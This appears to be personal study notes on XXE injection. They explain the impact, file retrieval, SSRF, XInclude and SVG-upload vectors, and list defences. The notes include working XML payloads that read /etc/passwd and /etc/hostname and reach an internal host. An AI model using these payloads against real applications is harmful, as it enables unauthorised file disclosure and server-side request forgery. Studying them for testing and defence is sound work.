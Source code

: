# XML external entity ()

### What is XML
- Some applications use the XML format to transmit data between the browser and the server.
- Its popularity has now declined in favor of the JSON format

## Impact
- Retrieve files
- Perform SSRF attacks

## Exploiting XXE to retrieve files
1) Introduce (or edit) a DOCTYPE element that defines an external entity containing the path to the file
2) Edit a data value in the XML that is returned in the application's response, to make use of the defined external entity.
- Note: To test systematically for XXE vulnerabilities, you will generally need to test each data node in the XML individually, by making use of your defined entity and seeing whether it appears within the response. 

```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck> 
```
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

## Exploiting XXE to perform SSRF attacks
- Reflected SSRF
- Bind SSRF
```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
```

## Blind XXE
- to do

## Finding hidden attack surface for XXE injection
- Requests that contain data in XML format
- Requests that do not contain any XML
  - (A way to detect) It's useful add entity reference that doesn't exist to cause an error condition -> ok it's XML ... 
  - XInclude attacks
    - Some applications receive client-submitted data, embed it on the server-side into an XML document, and then parse the document
    - XInclude is a part of the XML specification that allows an XML document to be built from sub-documents
    - ```
      <foo xmlns:xi="http://www.w3.org/2001/XInclude">
      <xi:include parse="text" href="file:///etc/passwd"/></foo>
      ```
  - Via file upload
    - Some common file formats use XML or contain XML subcomponents. Examples of XML-based formats are office document formats like DOCX and image formats like SVG
    - ` <?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg> `
        - This works if it's used image processing library & support SVG images & allow external entity
   - Via modified content type
     - To do
    
## Defence
- Disable resolution of external entities
- Disable support for XInclude
